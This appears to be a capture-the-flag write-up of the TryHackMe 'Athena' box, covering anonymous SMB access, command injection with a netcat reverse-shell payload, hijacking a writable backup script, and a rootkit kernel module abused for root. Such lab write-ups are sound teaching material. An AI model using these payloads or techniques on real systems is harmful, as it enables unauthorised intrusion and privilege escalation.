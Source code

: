 ```yaml
---
title: Athena 
published: 2024-08-05
description: "An in-detail writeup on the linux box from THM. From boot to root!"
tags: ["thm", "box", "medium", "linux", "reverse-shells", "lkms", "rootkits", "reversing"]
category: TryHackMe
draft: false
---
```


![](https://tryhackme-images.s3.amazonaws.com/room-icons/53d3c28c1af197142685ceb238d5ce3c.png)

## Nmap Scan

```bash
PORT    STATE SERVICE      REASON
22/tcp  open  ssh          syn-ack ttl 63 
80/tcp  open  http         syn-ack ttl 63 
139/tcp open  netbios-ssn  syn-ack ttl 63 
445/tcp open  microsoft-ds syn-ack ttl 63 
``` 

## Initial Access 

* On port 80 => there is a web page. 

* SMB has anonymous login there will be a file containg a hidden direcotory in the web page. `/myrouterpanel`

```bash
> smbclient \\\\$VMIP\\public 
Password for [WORKGROUP\trevohack]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Apr 17 06:24:43 2023
  ..                                  D        0  Mon Apr 17 06:24:05 2023
  msg_for_administrator.txt           N      253  Mon Apr 17 00:29:44 2023

		19947120 blocks of size 1024. 9693196 blocks available
smb: \> get msg_for_administrator.txt
getting file \msg_for_administrator.txt of size 253 as msg_for_administrator.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \>
``` 

* `/myrouterpanel` is vulnerable to RCE `$(nc <lhost> <lport> -e /bin/bash)` will get a reverse shell as `www-data`

## Privilege Escalation to Athena

* From there, a `backup.sh` file is available at `/usr/share/backup` which runs recursively if you look at `pspy`.

* `ls -la` shows this

```bash
-rwxr-xr-x   1 www-data athena     310 Sep 16 19:01 backup.sh
``` 

* Injecting a reverse shell may give a shell as `athena`

```bash
> nc -nvlp 9090
Listening on 0.0.0.0 9090
Connection received on 10.10.236.162 41090 
bash: no job control in this shell
athena@routerpanel:/$ whoami
athena
```

## Priv Escalate to root

* On athena `sudo -l -l` reveals that `/mnt/.../secret/venom.ko` can be loaded to the kernel


```bash
athena@routerpanel:/$ sudo -l -l
Matching Defaults entries for athena on routerpanel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User athena may run the following commands on routerpanel:
Sudoers entry:
    RunAsUsers: root
    Options: !authenticate
    Commands:
	/usr/sbin/insmod /mnt/.../secret/venom.ko
``` 

* USE Ghidra: to reverse the venom.ko file 

![](https://i.postimg.cc/RFR6NDRs/reverse.png)

![](https://i.postimg.cc/qRjqkCJW/reversing.png)

* After reversing, the `give_root` function may work like this `kill -57 <pid>`, later on the `id` command reveals that you have root access.

## Pwned! 
